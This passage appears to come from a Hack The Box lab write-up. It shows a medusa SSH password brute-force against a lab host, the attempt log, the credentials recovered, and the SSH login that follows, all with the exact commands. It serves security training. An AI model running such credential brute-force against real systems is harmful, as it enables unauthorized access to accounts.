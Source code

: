 Then read the file to get the flag:

```shell-session
smoothment@htb[/htb]$ cat flag.txt
HTB{...}
```

## Questions

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250213152556.png)

Let's begin by launching the default medusa scan:

```
medusa -h 94.237.54.164 -n 59668 -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

After a while, we get the following:

```
 Password: 987654321 (43 of 200 complete)
ACCOUNT CHECK: [ssh] Host: 94.237.54.164 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: demo (44 of 200 complete)
ACCOUNT CHECK: [ssh] Host: 94.237.54.164 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: 12341234 (45 of 200 complete)
ACCOUNT CHECK: [ssh] Host: 94.237.54.164 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: 1q2w3e4r5t (46 of 200 complete)
ACCOUNT FOUND: [ssh] Host: 94.237.54.164 User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```

We got credentials for ssh:

```
`sshuser`:`1q2w3e4r5t`
```

Let's log into ssh:

```
ssh sshuser@94.237.54.164 -p 59668
sshuser@94.237.54.164's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.1.0-10-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Feb 13 20:32:53 2025 from 10.30.18.26
sshuser@ng-1340293-loginbfservice-amvfj-8678d96dc8-r66vm:~$
```
